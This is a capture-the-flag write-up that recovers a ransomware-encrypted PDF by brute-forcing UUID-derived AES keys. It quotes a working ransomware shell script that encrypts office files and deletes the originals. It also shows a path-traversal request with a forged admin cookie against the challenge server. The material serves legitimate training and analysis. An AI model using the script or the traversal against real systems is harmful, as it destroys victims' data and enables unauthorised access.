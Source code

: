# Task 9

## Background
> Unfortunately, looks like the ransomware site suffered some data loss, and doesn't have the victim's key to give back! I guess they weren't planning on returning the victims' files, even if they paid up.
>
> There's one last shred of hope: your cryptanalysis skills. We've given you one of the encrypted files from the victim's system, which contains an important message. Find the encryption key, and recover the message.
> ### Downloads
> - Encrypted file recovered from the victim's system (important_data.pdf.enc)
> ### Prompt
> Enter the value recovered from the file

## Writeup
TL;DR: The file is encrypted using AES-128 in CBC mode, with a key that is the first 16 bytes of a variant 1 UUID. Using the timestamp from `keygeneration.log`, create and test UUIDs that could have been generated leading up to that point, one of which will successfully decrypt the file.

The first thing to do is find out how the victim's files were encrypted. From the attacker's tools recovered as part of task A2, we have a likely method in `ransom.sh`.
```bash
#!/bin/sh
read -p "Enter encryption key: " key
hexkey=`echo -n $key | ./busybox xxd -p | ./busybox head -c 32`
export hexkey
./busybox find $1 -regex '.*\.\(pdf\|doc\|docx\|xls\|xlsx\|ppt\|pptx\)' -print -exec sh -c 'iv=`./openssl rand -hex 16`; echo -n $iv > $0.enc; ./openssl enc -e -aes-128-cbc -K $hexkey -iv $iv -in $0 >> $0.enc; rm $0' \{\} \; 2>/dev/null
```

This script takes the first 16 bytes of stdin, then searches for a bunch of files on the victim's system, replacing each with a file containing the hex-encoded random IV, followed by the contents of the file, encrypted using AES-128 in CBC mode. Taking a quick look at the file we were given, it seems to follow this format.
```bash
$ head -c 64 important_data.pdf.enc | xxd
00000000: 3638 3466 3966 3536 3437 3062 6337 6339  684f9f56470bc7c9
00000010: 3039 3338 3837 3061 6366 3037 6137 3038  0938870acf07a708
00000020: 86db d403 1d47 8254 0373 ad57 68d5 7f82  .....G.T.s.Wh...
00000030: 9f0d 6fa5 c3c6 fe1c 4982 57a7 1d8b 9cf8  ..o.....I.W.....
```

Obviously, there must be some trick to reducing the key space, since an exhaustive search is infeasible, to put it lightly. We know that the attacker used the ransomware-as-a-service site to handle the demand payment, so it seems logical that the key they used also came from there. Since we have the `keyMaster` binary used to generate keys, we can simply run it to see what comes out.
```bash
$ ./keyMaster lock 100 1.00 LamentableConservative
{"error":"no such table: hackers"}
```

Well, that's unfortunate. It seems to be looking for a database table called "hackers", which it can't find because we don't even have the database file it's trying to read. To actually find which file it tries to access, we can either look through the disassembly, or run it through `strace`. The latter is easier, so that's what I went with.
```bash
$ strace ./keyMaster lock 100 1.00 LamentableConservative 2>&1 | grep "openat"
openat(AT_FDCWD, "/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libdl.so.2", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libpthread.so.0", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/lib/x86_64-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
openat(AT_FDCWD, "/sys/kernel/mm/transparent_hugepage/hpage_pmd_size", O_RDONLY) = 3
openat(AT_FDCWD, "/etc/localtime", O_RDONLY) = 6
openat(AT_FDCWD, "/opt/keyMaster/keyMaster.db", O_RDWR|O_CREAT|O_NOFOLLOW|O_CLOEXEC, 0644) = 6
openat(AT_FDCWD, "/opt/keyMaster/keyMaster.db", O_RDWR|O_CREAT|O_NOFOLLOW|O_CLOEXEC, 0644) = 7
```

The file in question appears to be `/opt/keyMaster/keyMaster.db`, so let's get that from the server, then try running `keyMaster` again.
```bash
$ python3 forge_token.py 9076 > admin_cookie
$ curl --cookie admin_cookie "https://xekflqhmhrsoelot.ransommethis.net/jphzwhdbesknahns/fetchlog?log=../../keyMaster/keyMaster.db" > keyMaster.db
$ ./keyMaster lock 100 1.00 LamentableConservative
{"error":"Insufficient credit.  Please contact an administrator to reload."}
```

Well, there's the "as-a-service" part of "ransomware-as-a-service". But since we have the database file, we should just be able to give ourselves some credits, and then try again.
```
$ file keyMaster.db
keyMaster.db: SQLite 3.x database, last written using SQLite version 3027002
$ sqlite3
...
sqlite> .schema
CREATE TABLE customers (customerId INTEGER, encryptedKey TEXT, expectedPayment REAL, hackerName TEXT, creationDate TEXT);
CREATE TABLE hackers (hackerName TEXT, credits INTEGER);
sqlite> SELECT * FROM hackers WHERE hackerName='LamentableConservative';
LamentableConservative|0
sqlite> UPDATE hackers SET credits=1000 WHERE hackerName='LamentableConservative';
$ ./keyMaster lock 100 1.00 LamentableConservative
{"plainKey":"07ed85e7-6df4-11ed-bc56-0242ac11","result":"ok"}
```

That's more like it! The `plainKey` looks like a [UUID](https://en.wikipedia.org/wiki/Universally_unique_identifier) (though the last 4 characters seem to have been chopped off), so we have the key space reduction we're looking for. Reading the Wikipedia page, the UUID we get out of `keyMaster` seems to be a "version 1, variant 1" UUID, which are based on the time and MAC address. Time is encoded as the number of 100-nanosecond intervals since midnight UTC on October 15, 1582.

We know from the ransom script that only the first 16 bytes of the key were used. Since this stays entirely within the time portion of the UUID, we don't need to care about the other parts (clock sequence and node id). Then, all we need to do is find out when the attacker generated their key. Fortunately, we have `keygeneration.log`, which just so happens to correlate every generated key with a timestamp of when it was generated.

Obviously, the timestamp from the log won't match exactly with when the key was generated. Since we have the key-encrypting-key from task 8, and a bunch of generated keys in the `customers` table, we can look at the time differences between the log timestamp and the timestamp encoded in the key.
```
$ python3 analyze_keys.py
23365 2021-01-02T14:24:50-05:00 b'2e29dfeb-4d30-11eb-b97d-05b17eac' 0:00:08
21086 2021-01-10T18:32:36-05:00 b'1e7436ee-539c-11eb-b97d-05b17eac' 0:00:08
45041 2021-01-12T23:53:25-05:00 b'44453351-555b-11eb-b97d-05b17eac' 0:00:08
19928 2021-01-28T05:48:26-05:00 b'593aa07a-6156-11eb-b97d-05b17eac' 0:00:09
15552 2021-01-29T14:58:03-05:00 b'4b7b97f3-626c-11eb-b97d-05b17eac' 0:00:08
10749 2021-02-10T08:12:23-05:00 b'9ca6868c-6ba1-11eb-b97d-05b17eac' 0:00:11
...
```

The time difference seems to be between 6 and 11 seconds, so now we can simply create every 16-byte UUID head from 11 seconds to 6 seconds before the log timestamp, and try to use each to decrypt the given file.
```
$ g++ -Wall -std=c++11 -O3 main.cpp keytester.cpp evplib.cpp -o main -lcrypto && ./main
IV: 684f9f56470bc7c90938870acf07a708
24000000 (21.82%): 3dbd8000-b42d-11ec
!!FOUND KEY!!: 3dcbb0a8-b42d-11ec 
Elapsed sec: 24.5933
Tested 24929961 keys
```

Opening up the decoded file created by the program, we get a nice congratulatory message and the answer to the task. Putting this into the answer box, we get our task 9 badge, and finish the 2022 Codebreaker challenge!

## Additional notes
Due to a backend bug, the version of `keyMaster` that I originally downloaded tried to coerce the _encrypted_ key into the "plainKey" output field. This resulted in me going down a 2-month long UTF-8 encoding rabbit hole, during which I needed to search a much larger key space than what was intended. To do this, I rewrote my search script in C++, which is why both `solve.py` and `cpp/` exist. The C++ version gives a 20-30 times speedup compared to the Python on my machine (1 minute for 15 seconds worth of UUIDs vs. 2 minutes for 0.5 seconds worth), which is a really great reminder of just how slow Python is.